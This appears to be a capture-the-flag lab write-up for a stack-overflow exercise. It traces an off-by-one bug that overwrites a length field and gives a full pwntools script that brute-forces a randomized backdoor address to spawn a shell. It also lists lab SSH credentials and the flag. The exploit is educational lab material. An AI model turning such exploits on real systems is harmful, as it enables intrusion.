

## lab06

**Level C**
The first thing I do is check the compiled structure of `struct savestate`, since the address space is randomized, only the offset is useful. In one run, the stack layout is:
> in `set_tweet`: `save->tweet` at `0xbfbcdb88`, offset `0x0`
> in `set_tweet`: `save->msglen` at `0xbfbcdc3c`, offset `0xb4`
> in `set_username`: `save->username` at `0xbfbcdc14`, offset `0x8c`

So the `msglen` is immediately next to the `username` since `0xb4-0x8c=40 == strlen(username)`. A vulnerability is in `set_username`, while the length of `username` is 40 bytes, this function wrongly accepts 41 bytes into it, hence give us the chance to modify `msglen`.
```cpp
/* Read and copy the username to our savestate */
fgets(readbuf, 128, stdin);
for(i = 0; i <= 40 && readbuf[i]; i++)
    save->username[i] = readbuf[i];
```

Since canary is not set, if we change `msglen` to 255, the runtime stack of `handle_tweet` can be overflow, since the local variable `save` is only 184 (140+40+4) bytes long. And I found the overflow length is 196.
```cpp
/* read a tweet from the user, safely copy it to struct */
fgets(readbuf, 1024, stdin);
strncpy(save->tweet, readbuf, save->msglen);
```

The last question is, where the eip should go? There is a function `secret_backdoor`, but its address is random. However, it can be brute forced.


Only the mediate two bytes are randomized, so any guess may success with probability 1/256.

```python
from pwn import *

def get_p():
    #p = process('./lab6C')
    shell = ssh(host='192.168.37.128', user='lab6C', password='lab06start')
    p = shell.process('/levels/lab06/lab6C')
    return p
def loop(guess_addr):
    p = get_p()
    p.recvuntil('username\n')
    un = 'Q' * 40 + '\xff'
    p.sendline(un)
    p.recvuntil('Dude\n')
    pw = 'Q' * 196 + p32(guess_addr)
    p.sendline(pw)
    p.recvuntil('sent!\n')
    try:
		p.sendline('/bin/sh')
		p.sendline('whoami')
        print p.recvline()
        p.interactive('cirq # ')
    except EOFError:
        del p

def main():
    base_addr = 0xb775372b
    for i in range(256):
        print 'try for', (i+1), 'times'
        loop(base_addr)
main()
```


The flag is `p4rti4l_0verwr1tes_r_3nuff`.

---

**Level B**


---

**Level A**

